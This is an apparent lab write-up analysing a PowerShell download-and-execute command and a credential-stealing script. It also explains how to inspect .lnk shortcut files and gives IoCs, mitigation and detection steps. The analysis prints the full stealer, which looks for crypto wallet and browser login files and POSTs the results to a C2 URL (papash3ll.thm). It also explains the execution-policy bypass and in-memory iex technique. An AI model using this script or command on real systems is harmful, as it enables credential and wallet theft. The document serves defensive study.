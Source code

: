 **Command used in PowerShell**

`-ep Bypass` 

**Explanation:** Overrides PowerShell’s excution policy to allow the script to run regardless of the machine’s policy settings

**Purpose**: ****Execution policies are a security measure to restrict script execution. This bypass ensures the script runs without interference

`-nop` 

**Explanation:** Disables PowerShell’s profile loading

**Purpose:** Allows inline execution of PowerShell commands

`(New-Object Net.WebClient).DownloadFile(...)` 

**Explanation:** Uses the `.NET` `WebClient` object to download a file from a specified URL

**Purpose:** Fetches the script `(IS.ps1)` from the remote server hosted on GitHub

``C:\ProgramData\s.ps1`` 

**Explanation:** Specifies the location on the local system where the downloaded file will be saved

**Purpose**: ****Ensures the downloaded script is stored in a predictable location for subsequent execution

`iex (Get-Content ... -Raw)` 

**Explanation:** Reads the content of the downloaded file (`s.ps1`) and passes it to `Invoke-Expression (iex)` to execute it in memory

**Purpose:** Executes the script directly, making it harder for traditional security tools to detect

**Potential Uses**

Legitimate Usage: Automating administrative tasks or downloading scripts for deployment

Malicious Usage: Malware and phishing attacks to execute malicious scripts stealthily

**Mitigation and Analysis**

If this command observed in logs or detected by security tools:

1. **Investigate Source URL**: to understand what the file contains
2. **Check System Logs:** Review logs for similar activity or further signs of compromise
3. **Quarantine the Script:** Inspect the file in an isolated environment
4. **Restrict Execution:** Enforce strict execution in PowerShell. Monitor and block potentially harmful PowerShell commands using endpoint security solutions

Multiple ways to inspect .lnk file to reveal embedded commands and attributes

To view the content of a `.lnk` (shortcut) file, you can use several methods. Here are a few options:

**1. Using a Text Editor**

You can open the `.lnk` file in a text editor (like Notepad) to see some of the raw data. However, the content will be mostly unreadable, as `.lnk` files are binary files. You can still see some text strings, such as the target path.

**2. Using Windows Explorer**

1. **Right-click** on the shortcut file.
2. Select **Properties**.
3. In the **Shortcut** tab, you will see the **Target** field, which shows the path the shortcut points to, along with other information such as Start in and Shortcut key.

**3. Using Command Prompt**

You can use the built-in command line tool `WMI` to extract details from the `.lnk` file:1. Open Command Prompt.2. Run the following command:
`1. bash 
2.    wmic path Win32_ShortcutFile where "Name='your_shortcut.lnk'" get Target`

Replace `your_shortcut.lnk` with the actual name of your shortcut file.

**4. Using a Third-Party Tool**

There are several tools designed to analyze `.lnk` files and display their contents in a user-friendly way:- **LnkParser**: A specialized tool for viewing shortcut files.- **Shortcut Explorer**: Another tool that provides detailed information about shortcuts.

**5. Using PowerShell**

You can also use PowerShell to get detailed information:
`1. $shortcut = (New-Object -ComObject WScript.Shell).CreateShortcut("C:\path\to\your_shortcut.lnk") 
2. $shortcut.TargetPath 
3. $shortcut.Arguments 
4. $shortcut.WorkingDirectory`

These methods should help you view the content and properties of a `.lnk` file.

More readings: https://belkasoft.com/forensic-analysis-of-lnk-files

```jsx
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server
```

**Script breakdown**

1. Search-For-Wallets Function
    1. Paths searched:
        1. Bitcoin (`wallet.dat`)
        2. Ethereum (`keystore`)
        3. Monero (`wallet`)
        4. Dogecoin (`wallet.dat`)
    2. Actions
        1. Use `Test-Path` to check for existence of files
        2. Appends paths of found wallet files to `stolen_info.txt`
2. Search-For-BrowserCredentials Function 
    1. Target credential files from web browsers
        1. Google Chrome (`Login Data` SQLite database)
        2. Firefox (`logins.json`)
    2. Actions
        1. Uses `Test-Path` to check for the existence of files
        2. Appends file paths into stolen_info.txt
3. Send-InfoToC2Server Function
    1. C2 URL: http://papash311.thm/data
    2. Method: HTTP POST request
    3. Data: Contents of `stolen_info.txt`
4. Execution Flow
    1. `Search-ForWallets` to locate cryptocurrency wallet files
    2. `Search-ForBrowserCredentials` to identify browser credential files
    3. `Send-InfoToC2Server` to exfiltrate gathered information

**Observations** 

Malicious intent - explicitly designed to steal cryptocurrency wallet files and browser credentials, then exfiltrate this information to a remote server

Indicators of Compromise (IoCs)

- File path: stolen_info.txt
- C2 URL
- Specific file paths for wallets and credentials

Methods used:

- `Test-Path` for identify files
- `Add-Content` for appending data to a file
- `Invoke-WebRequest` for sending data to C2 server

### Mitigation and Response

1. **Preventive Measures**:
    - Restrict PowerShell execution policies to prevent script execution.
    - Use endpoint protection to detect and block malicious scripts.
2. **Incident Response**:
    - **Containment**:
        - Terminate the process executing this script.
        - Quarantine the affected machine.
    - **Eradication**:
        - Remove the `stolen_info.txt` file if present.
        - Search for and remove other traces of the script.
    - **Recovery**:
        - Change credentials stored in the affected browsers.
        - Move or secure any cryptocurrency wallets.
    - **Analysis**:
        - Check logs for outbound connections to `http://papash3ll.thm/data`.
        - Determine if data was successfully exfiltrated.
3. **Detection**:
    - Monitor for use of PowerShell with suspicious commands (e.g., `Invoke-WebRequest` to unknown domains).
    - Detect unusual file access patterns for sensitive paths (wallets or credential files).
